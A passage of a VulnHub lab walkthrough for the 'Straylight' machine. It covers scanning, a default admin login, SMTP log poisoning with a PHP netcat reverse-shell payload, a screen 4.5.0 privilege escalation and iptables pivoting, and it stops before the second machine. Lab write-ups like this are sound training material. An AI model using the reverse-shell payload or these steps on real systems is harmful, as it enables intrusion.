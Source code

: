 ```yaml
---
categories: [VulnHub]
tags: [PrivEsc]
---
```

# Straylight



## Description ⤵️

>💡 A new OSCP style lab involving 2 vulnerable machines, themed after the cyberpunk classic Neuromancer - a must read for any cyber-security enthusiast. This lab makes use of pivoting and post exploitation, which I've found other OSCP prep labs seem to lack. The goal is the get root on both machines. All you need is default Kali Linux.
<br><br>
I'd rate this as Intermediate. No buffer overflows or exploit development - any necessary password cracking can be done with small wordlists. It is much more related to an OSCP box vs a CTF. I've tested it quite a bit, but if you see any issues or need a nudge PM me here.
<br><br>
Virtual Box Lab setup instructions are included in the zip download, but here is a quick brief:
<br><br>
Straylight → simulates a public facing server with 2 NICS. Cap this first, then pivot to the final machine.
<br><br>
Neuromancer → is within a non-public network with 1 NIC. Your Kali box should ONLY be on the same virtual network as Straylight.
<br><br>
This works better with VirtualBox rather than VMware
{: .prompt-info }

### Let’s find the IP Address first >>

![Untitled](/Vulnhub-Files/img/Straylight/Untitled.png)

```bash
This machine have 2 Network Adaptor therefore showing to IP but both are same :

I will be using 192.168.56.102
```
{: .nolineno}

## Port Scan Results ➡️

![Untitled](/Vulnhub-Files/img/Straylight/Untitled%201.png)

```bash
Open Ports >
25			SMTP
80			HTTP			
3000		Apache		Hadoop
```
{: .nolineno}

---

## Web Enumeration ⤵️

![Untitled](/Vulnhub-Files/img/Straylight/Untitled%202.png)

Let’s check different ports too →

![Untitled](/Vulnhub-Files/img/Straylight/Untitled%203.png)

Lets try admin : admin and I got In →

![Untitled](/Vulnhub-Files/img/Straylight/Untitled%204.png)

Lets check this option →

![Untitled](/Vulnhub-Files/img/Straylight/Untitled%205.png)

Now access them and found this :

![Untitled](/Vulnhub-Files/img/Straylight/Untitled%206.png)

![Untitled](/Vulnhub-Files/img/Straylight/Untitled%207.png)

After digging deeper into `/turning-bolo/` directory I got this →

![Untitled](/Vulnhub-Files/img/Straylight/Untitled%208.png)

Now I think it is indicating to us for looking for log files :

![Untitled](/Vulnhub-Files/img/Straylight/Untitled%209.png)

I have also got a port for SMTP for mail purpose so lets us this to execute our payload for reverse shell access or command shell →

![Untitled](/Vulnhub-Files/img/Straylight/Untitled%2010.png)

Now After Accesing the SMTP service I am getting this :>

![Untitled](/Vulnhub-Files/img/Straylight/Untitled%2011.png)

This image is of source code of the previous picture .

Now it’s time to execute our reverse shell code →

```
{: .nolineno}
Command : MAIL FROM:<?php system('nc -e /bin/bash 192.168.56.103 4444'); ?>
```
{: .nolineno}

In response to that in netcat I recevied this →

![Untitled](/Vulnhub-Files/img/Straylight/Untitled%2012.png)

⤵️

![Untitled](/Vulnhub-Files/img/Straylight/Untitled%2013.png)

Now when I got a Local Privilege Escalation so lets find for SUIDs and GUIDs files →

![Untitled](/Vulnhub-Files/img/Straylight/Untitled%2014.png)

Lets search for an exploit for `screen 4.5.0` as it is a common exploit →

![Untitled](/Vulnhub-Files/img/Straylight/Untitled%2015.png)

Now I transfered this exploit through wget and simply executed it And I got this :

![Untitled](/Vulnhub-Files/img/Straylight/Untitled%2016.png)

Now lets find the flag →

![Untitled](/Vulnhub-Files/img/Straylight/Untitled%2017.png)

also I got this →

![Untitled](/Vulnhub-Files/img/Straylight/Untitled%2018.png)

---

This is not an end !

I also got an another machine connect with this machine so lets use pivoting method to breach it too →

Now ⤵️

It time to make tunnel from straylight to Neuromancer and also to the Attacker machine So :>

```
{: .nolineno}
Command : iptables -t nat -A POSTROUTING -o enp0s3 -j SNAT --to-source 192.168.56.102
```
{: .nolineno}

![Untitled](/Vulnhub-Files/img/Straylight/Untitled%2019.png)

```
{: .nolineno}
command : iptables -t nat -A PREROUTING -i enp0s3 -p tcp --dport 3333 -j DNAT --to-destination 192.158.56.103
```
{: .nolineno}

![Untitled](/Vulnhub-Files/img/Straylight/Untitled%2020.png)

Now I have a connection between these 2 machines >

Now lets go to `Neuromancer` Machine →

